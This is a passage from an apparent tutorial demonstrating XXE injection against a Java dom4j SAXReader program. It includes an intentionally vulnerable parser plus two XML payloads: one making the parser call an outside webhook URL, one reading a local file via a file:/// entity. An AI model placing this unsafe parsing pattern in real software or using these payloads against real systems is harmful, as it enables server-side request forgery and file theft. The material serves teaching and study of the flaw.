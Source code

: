 Next we need a vulnerable application. Let's start with this small code:

```java
package com.securitywhitepapers.xxe;

import java.io.File;
import java.io.IOException;
import org.dom4j.Document;
import org.dom4j.DocumentException;
import org.dom4j.io.SAXReader;
import org.jdom2.JDOMException;

public class SaxReader {

    public static void main(String[] args) throws IOException, JDOMException, DocumentException {
      
        SAXReader reader=new SAXReader();
        Document doc=null;
        doc=reader.read(new File("payload.xml"));
        System.out.println(doc.asXML());
        
    }
}
```

This is the simplest piece of code.  
And as you can see we are reading the content of the file called payload.xml, we need that file as well. Use the following xml, save it with the same name, on the projects root folder

```xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY bar SYSTEM "https://webhook.site/f0f0f9b4-0845-48f9-9939-aa43558a1529" >]>
<contact>
    <name>Luis Fontes</name>
    <foo>&bar;</foo>
</contact>
````

Now if you run this code, you will notice that a request was made:

[![XXE poc](images/image-1-1024x387.png)](images/image-1-1024x387.png)

And voilà. We have XXE.  
If you have a webserver that accepts XML files from user, an attacker may be using your webserver to make requests to other websites, for example.

But, as I said this is not all, and you can do other type of attacks, like read files from file system.  
To do that you just need to change the schema to file like so:

´´´xml
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<!DOCTYPE foo [<!ELEMENT foo ANY >
<!ENTITY bar SYSTEM "file:///c:/test.txt" >]>
<contact>
    <name>Luis Fontes</name>
    <foo>&bar;</foo>
</contact>
```

And if you look at the output:

[![external entities explotied to read a file](images/image-2.png)](images/image-2.png)

So we included a local file in the xml.  
This can be leveraged to get other files from the file system, as long as you know the path to the file (and the app opening has permissions to read it).
```